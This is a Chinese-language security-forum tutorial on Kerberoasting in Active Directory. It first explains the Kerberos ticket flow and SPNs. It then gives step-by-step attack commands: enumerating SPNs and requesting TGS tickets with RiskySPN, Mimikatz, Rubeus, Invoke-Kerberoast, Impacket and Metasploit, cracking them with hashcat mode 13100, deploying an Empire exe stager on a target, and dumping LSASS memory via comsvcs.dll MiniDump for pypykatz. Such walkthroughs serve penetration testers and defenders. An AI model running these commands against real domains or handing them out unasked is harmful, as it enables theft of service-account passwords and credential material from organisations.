# 深入理解 Kerberoasting 攻击 - 先知社区

深入理解 Kerberoasting 攻击

- - -

# 0x01 详解 Kerberos 身份验证流程

## Kerberos 及其主要组件

客户端从 Kerberos 密钥分发中心 (KDC) 获取票证，并在建立连接时将这些票证提交给应用程序服务器。它默认使用 UDP 端口 88，并依赖于对称密钥加密过程。Kerberos 使用票据来验证用户身份，完全避免了通过网络发送密码。

| Kerberos 组件 | 规则  |
| --- | --- |
| 参与各方 | Client：用户用来访问某些服务  <br>KDC：是域服务的密钥分发中心。他包含一个用户和服务 HASH 数据库、一个身份验证服务器和票据授予服务  <br>应用服务器：用于特定服务的服务器 |
| 加密秘钥 | krbtgt 密钥：使用 krbtgt 账户的 NTLM HASH  <br>User key：使用用户 NTLM HASH  <br>Service key：使用 NTLM HASH 的服务，可以使用用户或计算机账户  <br>Session key：在用户和 KDC 之间传递 Service session key：在用户和服务之间使用 |
| 票据  | TGT：向 KDC 提出申请 TGS 票据，他是用 KDC 密钥加密而成  <br>TGS：用户可以用来对服务进行身份验证是用 service key 加密而成 |
| PAC | PAC（特权属性证书）：几乎每个票据都包含 PAC，PAC 包含用户的权限，使用 KDC 密钥进行签名 |
| 消息协商过程 | KRB\_AS\_REQ：用户向 KDC 发送 TGT 请求来获取 TGT  <br>KRB\_AS\_REP:用户收到了来自 KDC 的 TGT  <br>KRB\_TGS\_REQ:用户使用 TGT 向 KDC 发送 TGS 请求  <br>KRB\_TGS\_REP:用户收到了来自 KDC 的 TGS  <br>KRB\_AP\_REQ:使用 TGS 的用户发送请求对服务进行身份验证  <br>KRB\_AP\_REP:(可选) 服务用来针对用户标识自身  <br>KRB\_ERROR:用于交流错误条件的消息 |

## Kerberos 消息认证流程

在 Active Directory 域中，每个域控制器都运行 KDC（Kerberos 分发中心）服务，该服务处理所有对 Kerberos 票证的请求。对于 Kerberos 票证，AD 使用 AD 域中的 KRBTGT 帐户。  
下面使用这张图来显示认证流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142009-c41f9304-ce25-1.png)

如上图，使用了三种颜色来标识该请求是用什么密钥来加密的

> 蓝色：用户 NTLM HASH  
> 黄色：Krbtgt NTLM HASH  
> 红色：服务账户的 NTLM HASH

### 步骤 1：KRB\_AS\_REQ

通过向 KDC 发送请求消息，客户端初始化通信  
`KRB_AS_REQ` 主要包括以下内容：

-   待认证客户端的用户名与 Krbtgt
-   帐户关联的服务 SPN（服务主体名称）
-   加密的时间戳（使用用户 HASH 加密）

整个消息使用用户 NTLM 哈希进行加密，以验证用户身份并防止重放攻击

### 步骤 2：KRB\_AS\_REP

KDC 解密验证用户身份的消息，验证成功后，KDC 将为客户端生成`TGT` ，并且使用 `krbtgt hash`进行加密，并且使用`用户HASH`加密一些消息  
`KRB_AS_REP` 主要包括以下内容：

-   **用户名**
-   一些加密数据（使用用户 HASH 加密）
    
    ```plain
    - 会话密钥
    - TGT 的到期日期
    ```
    
-   **TGT（使用 krbtgt hash 加密）**
    
    ```plain
    - 用户名
    - 会话密钥
    - TGT 的到期时间
    - 具有用户权限的 PAC，由 KDC 签名
    ```
    

### 步骤 3：KRB\_TGS\_REQ

经过步骤二发送的 `KRB_TGT`将存储在客户端的内存中，由于客户已经拥有`KRB_TGT`，因此将`TGT`用于在`TGS`请求中识别自己的身份，客户端将包含加密数据的`TGT`副本发送给`KDC`  
`KRB_TGS_REQ`主要包含以下内容：

-   **使用用户密钥加密的数据**
    
    ```plain
    - 用户名
    - 时间戳
    ```
    
-   TGT
-   请求的服务的 SPN

### 步骤 4：KRB\_TGS\_REP

`KDC` 接收`KRB_TGS_REQ` 消息并使用 Krbtgt 哈希解密该消息以验证 `TGT`，然后 `KDC` 返回 `TGS` 作为 `KRB_TGS_REP`，该 `TGS` 使用请求的`服务哈希`和一些加密消息进行使用`用户哈希`。  
`KRB_TGS_REP`主要包含以下内容：

-   用户名
-   **使用用户密钥加密的数据**
    
    ```plain
    - 服务会话密钥
    ```
    
-   TGS 的有效期
-   TGS（使用服务 HASH 加密）包括：
    
    ```plain
    - 服务会话密钥
    - 用户名
    - TGS 的有效期
    - 具有用户权限的 PAC，由 KDC 签名
    ```
    

### 步骤 5：KRB\_AP\_REQ

用户将`TGS`的副本发送到提供服务的服务器  
`KRB_AP_REQ`主要包含以下内容：

-   TGS
-   **使用用户密钥加密的数据**
    
    ```plain
    - 用户名
    - 时间戳
    ```
    

### 步骤 6：KRB\_verify\_PAC\_REQ

应用程序尝试使用 `NTLM HASH`来解密消息，并验证来自 `KDC`的 `PAC`来识别用户权限

### 步骤 7：PAC\_Verified\_REP

`KDC`验证 `PAC`  
**需要注意的是步骤 6 与步骤 7 都是可选步骤**

### 步骤 8：Allow Service Access

允许用户在特定的时间内访问该服务

# 0x02 服务主体名称 SPN

服务主体名称 (SPN) 是服务实例的唯一标识符。 `Active Directory 域服务`和 `Windows` 提供对服务主体名称 (SPN) 的支持，`SPN` 是 `Kerberos` 机制的关键组件，客户端通过该机制对服务进行身份验证。  
如果想使用 `Kerberos` 协议来认证服务，那么必须正确配置`SPN`。在`Kerberos`使用`SPN`对服务进行身份认证之前，必须在服务实例用于登录的账户对象上注册`SPN`，并且只能在一个账户上注册给定的`SPN`。如果服务实例的登录账户发生改变，必须在新账户下重新注册`SPN`。当客户端想要连接到某个服务时，他将查找该服务的实例，并为该实例编写`SPN`，然后连接到该服务并显示服务的`SPN`以进行身份认证。  
**SPN 四元素**

```plain
:serviceclass/host:port/servicename
例如
MSSQLSVC/win7/hack.org:1433
```

# 0x03 Kerberoasting 攻击

## 什么是 Kerberoasting

`Kerberoasting` 是一种允许攻击者窃取使用 `RC4` 加密的 `KRB_TGS` 票证的技术，以暴力破解应用程序服务 `HASH` 来获取其密码  
`Kerberos` 使用所请求服务的 `NTLM` 哈希来加密给定服务主体名称 (SPN) 的 `KRB_TGS` 票证。当域用户向域控制器 `KDC` 发送针对已注册 `SPN` 的任何服务的 `TGS 票证`请求时，`KDC` 会生成 `KRB_TGS`  
攻击者可以离线使用例如`hashcat`来暴力破解服务帐户的密码，因为该票证已使用服务帐户的 `NTLM 哈希`进行了加密。  
**Kerberoasting 攻击主要步骤如下**

> 1.发现 SPN 服务  
> 2.使用工具向 SPN 请求 TGS 票据  
> 3.转储 .kirbi 或 ccache 或服务 HASH 的 TGS 票据  
> 4.将 .kirbi 或 ccache 文件转换为可破解格式  
> 5.使用 hashcat 等工具配合字典进行暴力破解

并且随着技术的不断更新，`kerberoasting` 攻击的工具与手段也越来越多，因此我们把多个步骤的攻击叫做旧 `kerberoasting` 攻击，单个步骤的攻击叫做新 `kerberoasting` 攻击

## 旧 kerberoasting 攻击

### 利用 Powershell 脚本进行 kerberoasting

#### 发现 SPN

使用以下 `RiskySPN` 脚本发现 `SPN` 服务

```plain
https://github.com/cyberark/RiskySPN/tree/master
```

```plain
powershell -ep bypass
#发现域内 spn
Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts -FullData -Verbose
#发现域内 spn 并保存到 csv
Import-Module .\Export-PotentiallyCrackableAccounts.ps1
Export-PotentiallyCrackableAccounts
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142035-d3c8dd06-ce25-1.png)

当然我们也可以使用`GetUserSPns.ps1`来发现 `SPN` 服务

```plain
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142042-d81c5e14-ce25-1.png)

也可以使用`setspn -T ignite -Q */*`来发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142048-db559f5a-ce25-1.png)

#### 提取并转储 TGS\_ticket 并获取哈希值

我们使用 `TGSipher.ps1` 来提取 `KRB_TGS`，下载地址如下

```plain
https://github.com/cyberark/RiskySPN/blob/master/Get-TGSCipher.ps1
```

获取 `TGS` 并将结果转换为 `hashcat` 格式

```plain
Import-Module .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "MSSQLSvc/win7.rootkit.org:1433" -Format hashcat
```

成功获取 `mssql` 服务 `hash`字符串

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142057-e0ae0cee-ce25-1.png)

#### 使用 hashcat 进行破解

```plain
hashcat -m 13100 '/home/kali/Desktop/hashes' '/home/kali/Desktop/10_million_password_list_top_100000.txt' --force
```

成功获取了服务账户的密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142102-e3f47c44-ce25-1.png)

### 利用 Mimikatz 进行攻击

#### 使用 Mimikatz 请求 SPN 服务并且导出 TGS 票据

```plain
mimikatz.exe "kerberos::ask /target:MSSQLSvc/win7.rootkit.org:1433" "kerberos::list /export" exit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142107-e6d8b240-ce25-1.png)

#### 对票据进行暴力破解

方法 1：使用 `tgsrepcrack.py` 进行破解

```plain
python tgsrepcrack.py pass.txt tgs.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142113-ea80c748-ce25-1.png)

方法 2：使用 `kirbi2john.py` 将票据文件转换为`hash`值进行暴力破解

```plain
python kirbi2john.py tgs.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142119-edf5f47a-ce25-1.png)

使用`hashcat`进行破解

```plain
hashcat -m 13100 '/home/kali/Desktop/hashes' '/home/kali/Desktop/10_million_password_list_top_100000.txt' --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142127-f2dedd8a-ce25-1.png)

## 新 kerberoasting 攻击

### 使用 Rubeus.exe

发现 `SPN`、提取 `TGS`、转储`HASH`存储到`hash.txt`

```plain
Rubeus.exe kerberoast /outfile:hash.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142132-f5ca2158-ce25-1.png)

使用`hashcat`进行破解

```plain
ashcat -m 13100 --force -a 0 '/home/kali/Desktop/hash.txt' '/home/kali/Desktop/pass.txt'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142137-f8bae4ce-ce25-1.png)

`hashcat`有一个特点，当破解成功后第二次破解不会再重新破解，使用`show`命令来显示

### Invoke-kerberoast.ps1 脚本

`Invoke-kerberoast.ps1`是`empire`中集成的脚本，可以自动发现 SPN，提取 TGS 并且转储服务 HASH

```plain
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

```plain
Import-Module .\Invoke-kerberoast.ps1 
Invoke-kerberoast
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142143-fc716fa2-ce25-1.png)

之后使用 `hashcat` 暴力破解即可

## 在远程系统上利用 Kerberoasting 攻击

### 使用 Powershell Empire

使用 Kali 进行安装

```plain
apt install powershell-empire
```

启动`empire`服务器

```plain
sudo powershell-empire server
```

启动`empire`客户端

```plain
sudo powershell-empire client
```

使用`uselistener http`创建`http`监听器，设置端口`set Port 1111`，修改监听器名称为 test`set Name test`使用`options`查看信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142151-00cdc71c-ce26-1.png)

最后使用`execute`命令创建监听器，使用`listeners`命令查看所有监听器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142208-0b2a690e-ce26-1.png)

使用`usestager windows_csharp_exe`创建一个 exe 文件，`set Listener test`设置监听器为`test`，`execute`生成即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142214-0ec4d770-ce26-1.png)

当目标运行 exe 上线后，使用`agents`命令可以查看所有会话

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142221-1294a10a-ce26-1.png)

使用以下命令可以修改会话`rename 39ASLBHN stager1`，使用以下命令进入该会话`interact stager1`便可对主机进行操作

#### extract\_tickets 模块

执行下面的模块，他将提取`.kirbi`格式的文件作为`TGS`票据

```plain
usemodule powershell_credentials_mimikatz_extract_tickets
execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142230-17e9c676-ce26-1.png)

使用`download`命令下载即可，使用`tgscrack`对票据进行转换并且破解，下载地址如下

```plain
https://github.com/leechristensen/tgscrack
```

运行以下命令进行转换

```plain
python2 extractServiceTicketParts.py '/home/kali/Desktop/tgscrack-master/2-40a10000-micle@MSSQLSvc~Srv-Web-Kit.rootkit.org~1433-ROOTKIT.ORG.kirbi' >tgshash
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142235-1b60d56a-ce26-1.png)

使用`tgscrack.go`进行破解，`go run tgscrack.go -hashfile tgshash -wordlist pass.txt`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142240-1e04752e-ce26-1.png)

使用过程中可能会出现缺少依赖的问题，使用以下命令初始化新的模块然后安装即可

```plain
go mod init tgscrack 
go get golang.org/x/crypto/md4
```

#### invoke\_kerberoast 模块

该模块可以进行 `SPN` 发现、转储 `TGS`、获取 `HASH` 一键化

```plain
usemodule powershell_credentials_invoke_kerberoast
execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142244-2084bffc-ce26-1.png)

获取到之后，使用`hahscat`或者`john`破解即可

### 使用 Metasploit

```plain
load powershell 
powershell_import Invoke-Kerberoast.ps1
powershell_execute Invoke-Kerberoast
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142250-2419ea48-ce26-1.png)

### 使用 Impacket

使用`GetUserSPNs.py`脚本可以自动化发现 SPN、提取 TGS、转换为 HASH

```plain
python GetUserSPNs.py -request -dc-ip 192.168.3.144 rootkit.org/micle
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142254-26b2b99c-ce26-1.png)

之后使用同样的方法进行暴力破解即可。

### Pypykatz

首先我们将`lsass`进程内存 dump 下来

```plain
load powershell
powershell_shell
Get-Process Lsass
cd C:\Windows\System32
.\rundll32.exe comsvcs.dll, MiniDump 576 C:\lsass.DMP full
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142302-2b689164-ce26-1.png)

将 dmp 文件下载到 kali 本机`download c:/lsass.dmp /home/kali/Desktop`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142307-2e46b5b4-ce26-1.png)

此 dmp 中存储以下内容

```plain
用户的 NTLM HASH
KRB5_TGT 票据
KRB5_TGS 票据
服务 NTLM HASH
```

使用 pip 命令安装 pypykatz

```plain
pip3 install pypykatz
```

在`/root`目录下建立一个`kerb`文件夹

```plain
cd /root
mkdir kerb
```

使用`pypykatz`对 dmp 进行提取

```plain
pypykatz lsa -k /root/kerb minidump '/home/kali/Desktop/lsass.dmp'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142313-31f2c662-ce26-1.png)

`kerb`文件夹下也出现许多票据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218142318-349b1b6c-ce26-1.png)

使用`kirbi2john.py`或者`tgscrack`将票据转换成`hash`进行破解即可

# 参考链接

```plain
https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/
https://room362.com/post/2016/kerberoast-pt1/
https://room362.com/post/2016/kerberoast-pt2/
https://room362.com/post/2016/kerberoast-pt3/
https://adsecurity.org/?p=2293
https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
```
